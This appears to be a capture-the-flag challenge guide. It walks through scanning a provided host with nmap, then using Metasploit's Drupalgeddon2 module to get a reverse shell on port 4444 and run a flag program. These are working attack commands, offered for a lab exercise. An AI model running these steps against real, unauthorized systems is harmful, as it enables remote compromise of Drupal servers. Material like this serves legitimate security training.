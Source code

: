 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

##### Nmap
Install nmap. You can use a unofficial docker image or install it directly on your VM: 

`docker pull securecodebox/nmap`

OR for Debian/Ubuntu:

`apt-get install nmap`
 
OR for RedHat/CentOS:

`rpm -vhU https://nmap.org/dist/nmap-7.80-1.x86_64.rpm`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

##### Metasploit
If you have Docker installed you can simply run the metasploit container image. Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote ip of metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote ip of metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!
